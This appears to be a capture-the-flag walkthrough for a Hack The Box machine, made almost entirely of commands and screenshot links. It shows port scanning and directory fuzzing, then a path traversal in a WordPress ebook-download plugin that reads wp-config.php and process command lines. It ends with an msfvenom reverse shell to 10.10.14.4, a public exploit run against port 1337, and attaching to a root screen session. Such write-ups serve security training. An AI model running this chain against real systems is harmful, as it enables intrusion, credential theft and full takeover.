 

```
nmap -sS -sC -sV -T5 -Pn 10.10.11.125
```
![image](https://github.com/regarmulia/HTB/assets/33616880/be022ff2-0ea7-4b07-850c-62180b3ecaa5)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.125/wp-content/FUZZ -e .aspx,.php,.txt,.html
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f77925a-e53f-4365-8239-b28c5e9704f2)


```
http://10.10.11.125/wp-content/plugins/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fa8d6c3e-19ee-4647-868b-f71fc8fdc5fc)


```
https://www.exploit-db.com/exploits/39575
```
![image](https://github.com/regarmulia/HTB/assets/33616880/40ce0af1-0709-4d35-8248-112d04a32829)


```
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d3bfc7b6-6986-42bc-b970-94e3d598aff9)


```
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/812/cmdline
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d3ff846-8d87-41ee-bb76-3d492edc6d34)
![image](https://github.com/regarmulia/HTB/assets/33616880/5664cfa5-f4d7-4f34-bfbd-433946f7cf65)
![image](https://github.com/regarmulia/HTB/assets/33616880/16123463-9033-489e-9fb1-024324f33a02)


```
https://www.exploit-db.com/exploits/50539
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4f9f0677-885f-4244-bae0-f203d49a199a)


```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4444 PrependFork=true -o rev.bin
python3 50539.py 10.10.11.125:1337 rev.bin
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4299ba5f-e471-48c4-8137-0d1da24569cc)


```
ps aux
```
![image](https://user-images.githubusercontent.com/33616880/230254776-1416e191-549f-4f02-a683-cce2a129a5db.png)
![image](https://user-images.githubusercontent.com/33616880/230255081-2d9d559b-e3b9-4c4a-93d6-530f40436951.png)


```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
screen -x root/root
```
![image](https://user-images.githubusercontent.com/33616880/230254965-359d1dd1-6eab-4e74-824f-fdb933ff8615.png)
![image](https://user-images.githubusercontent.com/33616880/230254971-feb96981-888e-4074-9941-9f76ec8ee266.png)
